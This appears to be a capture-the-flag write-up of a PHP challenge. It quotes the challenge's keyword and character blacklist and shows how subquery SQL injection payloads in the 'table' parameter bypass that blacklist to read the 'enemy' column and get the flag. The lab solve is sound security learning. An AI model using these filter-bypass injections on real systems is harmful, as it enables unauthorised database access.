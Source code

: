I first looked at the code and saw the 2 key parts that are validating the input:

```if (! is_numeric ($id) or $id < 2)```
and
```
$special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
```

First, I tried looking for a way to abuse the ID field, unfortunately I didn't find anything of value to bypass the is_numeric function, the only things that maybe the author of the code doesn't intend for is that it works with floats, and numbers like 01233

Then I saw the "hints" on the page, saying that the hero with ID 1 would be interesting and that each hero has an enemy. so I guessed I need to get the enemy of the hero which his ID is 1.

I then saw that even though there are a lot of disabled keywords, I can still use many other, like select, from, limit and so on.

I the started exploring with these parameters:
```user_id=2&table=(SELECT 2 id, username from costume)&submit=Submit```
And saw it works when I got the output: Batman, meaning this works.
I then expermiented with a few others and finally got this query to work:
```user_id=2&table=(SELECT 2 id, enemy username FROM costume WHERE id LIKE 1)&submit=Submit```
And then I got the flag :)
